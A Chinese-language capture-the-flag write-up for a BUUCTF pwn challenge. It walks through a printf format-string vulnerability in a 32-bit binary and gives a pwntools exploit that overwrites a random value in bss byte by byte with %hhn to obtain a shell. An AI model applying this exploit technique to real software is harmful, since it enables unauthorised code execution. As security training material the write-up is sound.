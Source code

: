 # 第五空间2019 决赛 PWN5

## 前提

### 查看文件保护

```shell
[*] '/root/pwn/buuctf/第五空间2019_决赛_PWN5/pwn'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

## 静态分析

主函数如下

```c
int __cdecl main(int a1)
{
  unsigned int v1; // eax
  int fd; // ST14_4
  int result; // eax
  int v4; // ecx
  unsigned int v5; // et1
  char nptr; // [esp+4h] [ebp-80h]
  char buf; // [esp+14h] [ebp-70h]
  unsigned int v8; // [esp+78h] [ebp-Ch]
  int *v9; // [esp+7Ch] [ebp-8h]

  v9 = &a1;
  v8 = __readgsdword(0x14u);
  setvbuf(stdout, 0, 2, 0);
  v1 = time(0);
  srand(v1);
  fd = open("/dev/urandom", 0);
  read(fd, &unk_804C044, 4u);
  printf("your name:");
  read(0, &buf, 0x63u);
  printf("Hello,");
  printf(&buf);
  printf("your passwd:");
  read(0, &nptr, 0xFu);
  if ( atoi(&nptr) == unk_804C044 )
  {
    puts("ok!!");
    system("/bin/sh");
  }
  else
  {
    puts("fail");
  }
  result = 0;
  v5 = __readgsdword(0x14u);
  v4 = v5 ^ v8;
  if ( v5 != v8 )
    sub_80493D0(v4);
  return result;
}
```

程序运行时在`unk_804C044`处写入随机数，在最后一次输入结束后，若与`unk_804C044`处的随机数相等，可获得`shell`

## 思路分析

1. 目前信息
   - 第一次输入处存在格式化字符串漏洞
   - PIE关闭
   - `unk_804C044`是在`bss`段，地址可确定
2. 问题
   - 需要绕过与随机数对比的判断
3. 解决思路
   - 通过`printf`的格式化字符串漏洞，使用`%?$hhn`的方式逐字节修改`unk_804C044`的值，在最后一次输入时传入对应的值，通过自己与自己的比较绕过判断获得`shell`

## exp

```python
from pwn import *
context(os='linux', arch='i386', log_level='debug')
pwnfile = '/root/pwn/buuctf/第五空间2019_决赛_PWN5/pwn'
io = remote('node4.buuoj.cn', 25502)
# io = process(pwnfile)
bss_804C044 = 0x804C044
payload = flat([bss_804C044, bss_804C044+1, bss_804C044+2,bss_804C044+3, "%10$hhn%11$hhn%12$hhn%13$hhn"])
# 逐字节修改bss_804C044，printf在打印格式化字符串之前一共打印了16个，修改后bss_804C044的值应为0x10101010
io.sendlineafter('name:', payload)
io.sendlineafter('passwd:', str(0x10101010))
io.interactive()
```